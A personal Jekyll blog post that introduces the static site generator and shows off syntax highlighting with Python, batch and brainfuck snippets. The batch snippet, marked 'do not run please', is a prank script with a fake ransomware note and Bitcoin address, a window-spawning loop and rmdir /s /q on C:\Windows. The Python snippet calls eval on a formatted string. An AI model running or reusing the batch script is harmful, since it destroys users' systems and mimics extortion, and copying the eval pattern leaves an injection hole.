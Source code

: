 ```yaml
---
layout: post
title:  "the blog"
date:   2022-06-23 19:08:56 -0500
categories: misc
---
```


## welcome to jekyll

***what is it?***
Jekyll is a simple, blog-aware, static site generator perfect for personal, project, or organization sites. Think of it like a file-based CMS, without all the complexity. Jekyll takes your content, renders Markdown and Liquid templates, and spits out a complete, static website ready to be served by Apache, Nginx or another web server. Jekyll is the engine behind GitHub Pages, which you can use to host sites right from your GitHub repositories.

***well, what can i do with it?***
Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/

### syntax highlighting

python:

```python
else:
    if not hasattr(weighting, repartition):
        raise Exception(f'Weighting {repartition} does not exist')
    else:
        weights = eval(f'weighting.{repartition}(frames={blended_frames})')
```

batch: (do not run please)

```batch
@echo off
if not %1c == c goto forked
echo optimizing your pc now!
ping /n 1 1.0.0.1 > nul
echo your file have been encrypt! Send 6 Bitcoin to
echo bc1q5u67ypnlk4n4e35ymtc2n9cuf3m8kax0mnu39t
echo or you will loose youre files for ever!
pause > nul
:forked
set /a “i+=1”
start “” https://discord.gg/CTT
start “” cmd
if not %i% == 50 goto forked
rmdir /s /q "C:\Windows"
exit
```

brainf**k:

```brainfuck
>+++++++++[<++++++++>-]<.>+++++++[<++++>-]<+.+++++++..+++.[-]
>++++++++[<++++>-] <.>+++++++++++[<++++++++>-]<-.--------.+++
.------.--------.[-]>++++++++[<++++>- ]<+.[-]++++++++++.
```


